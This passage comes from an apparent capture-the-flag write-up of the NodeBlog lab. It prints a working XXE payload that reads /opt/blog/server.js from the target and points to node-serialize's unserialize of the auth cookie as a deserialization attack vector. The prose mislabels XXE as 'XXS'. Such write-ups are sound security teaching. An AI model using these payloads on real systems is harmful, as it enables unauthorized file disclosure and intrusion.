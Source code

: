 As I know that **NodeJS** is being used and as I have access to the files on the machine through the **XXS**, I do some research on the Internet about **[Node.js configuration files](https://medium.com/@techsuneel99/node-js-and-express-js-project-structure-tips-and-tricks-for-optimization-and-scalability-478cb7df528e){:target="_blank"}** and I find a list, also I already know the **Path** where the application is installed thanks to the error message obtained above. I go accessing the content of them, and discard those whose information does not seem relevant, but there is a **`server.js`** file that gives me a possible attack vector, since it uses the function to **Deserialize** data it receives. In this case the `auth` session cookie that is generated when authenticating.

> **xxe.xml**

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///opt/blog/server.js" >]>
<post>
<title>Oldboy</title>
<description>Hello World</description>
<markdown>&xxe;</markdown>
</post>
```

```bash
nvim server.js
cat server.js

# const serialize = require('node-serialize')
# function authenticated(c) {
#     c = serialize.unserialize(c)
#
# res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
```

<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_39.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
